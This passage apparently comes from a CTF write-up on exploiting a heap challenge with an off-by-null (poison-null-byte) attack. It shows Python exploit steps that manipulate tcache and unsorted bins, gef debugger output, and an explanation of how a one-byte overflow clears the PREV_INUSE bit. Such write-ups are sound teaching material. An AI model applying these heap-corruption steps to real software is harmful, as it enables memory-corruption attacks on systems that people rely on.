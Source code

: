 ```py
# we need to delete chunk_1, this is because we will be using this chunk to
#  to trigger the off-by-null (poison-null-byte) attack

delete_heap(1)

# chunk_0 should be freed so it can be consolidated with chunk_2 later
delete_heap(0)
```

Running the exploit:-

```r
ef➤  heap bins
──────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7dcdc40 ────────────────────────────────────────────────────
Tcachebins[idx=5, size=0x70] count=1  ←  Chunk(addr=0x555555757770, size=0x70, flags=) 
───────────────────────────────────────────────────── Fastbins for arena 0x7ffff7dcdc40 ─────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
──────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x555555757250, bk=0x555555757250
 →   Chunk(addr=0x555555757260, size=0x510, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
───────────────────────────────────────────────────── Small Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────────────────────────────────────────── Large Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  
```

Now, as you can see the chunk `0x555555757260` belongs to the `unsorted` bin and the chunk `0x555555757770` belongs to the `tcache`'s `bin[5]` being the size `0x70`. Now, the tricky part is that, whenever the chunk is `free`'d, the program `memsets` the `free`'d chunk with the `0xda` byte by byte, overwriting whatever was written in the chunk so far.

```py
# when we free a chunk, programs writes 0xDA to the whole chunk
# so, we need to zero out some parts of the chunk_1. Therefore,
# we are allocating/freeing the chunk_1 multiple times with different sizes
# interestingly, it always have chunk size of 0x71, but the program only cares
# about the input size
for i in range(9):
    # heap_list[0] => chunk_1 (0x71)
    # this causes strcpy writes null byte at the end of buffer.
    # when i == 0, off-by-one happens and turn size of chunk_2 from
    # 0x601 t0 0x600. Therefore, we clear PREV_IN_USE bit.
    new_heap(0x68 - i, 'b' * (0x68 - i))
    # we need to free the chunk, so malloc returns it on the next new_heap call
    delete_heap(0)
```
So, what we do here is, since the `free`'d chunk's contents is being overwritten by the `0xda` byte by byte, to mitigate this in such a way that the `chunk_1`, the chunk which went into the `tcache`, so here doing constant allocation of the size ranging from the `0x5f` to `0x68`, all of them will land into the `tcache` bin[5] since the rounding size for the chunks allocated in that range will have the `0x70` size and will be in the `bin[5]`.

